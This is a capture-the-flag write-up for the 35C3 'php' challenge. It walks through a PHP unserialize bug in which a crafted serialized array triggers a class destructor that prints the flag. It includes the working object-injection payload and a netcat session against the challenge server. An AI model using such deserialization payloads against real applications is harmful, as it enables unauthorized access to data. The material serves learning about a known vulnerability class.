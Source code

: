 # 35c3_php
Solution for 35c3 php challenge

The challenge consists of a single php file. 
```
<?php
$line = trim(fgets(STDIN));
$flag = file_get_contents('/flag');
class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}
$a = @unserialize($line);
throw new Exception('Well that was unexpected…');
echo $a;
```

1. It reads the user input from STDIN.
2. It reads the content of the flag file into $flag variable.
3. It declares a class named 'B', with a destructor function that echos the content of $flag.
4. It uses PHP serialization library to unserialize the user input.
5. It throws an exception.


PHP serialization library is the source of many vulnerabilities. Common logical bugs involve actions done from magic methods such as 
\__destruct.

We can serialize an instance of 'B' class, which means that its destructor will get called at some point and echo the content of the flag.

O:1:"B":0:{};

Still, that didn't work. This is because the exception that gets thrown in the next line. I'm not sure if this caused the destructor not to execute, or simply doesn't allow any more echo calls at that point since an exception is thrown.

To overcome this, I wanted to make sure the destruct method gets called prior to the exception being thrown. To do so, I crafted the following serialized string:

a:2:{i:1;O:1:"B":0:{};i:2;o:1:"C":0:{};}

This will unserialize an array, consisting of a 'B' object as its first item. For the second item, we will try to unserialize an object of class 'C' which isn't declared. That will throw an exception. As that call to unserialize has the @ mark before it, php will silence any php error the function raises. As the unserialize call already instantiated an instance of 'B' class, it has to call its destruct method and echo the content of $flag.

```
gal@ubuntu:/var/www/html$ nc 35.242.207.13 1
a:2:{i:1;O:1:"B":0:{};i:2;o:1:"C":0:{};}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
gal@ubuntu:/var/www/html$
```
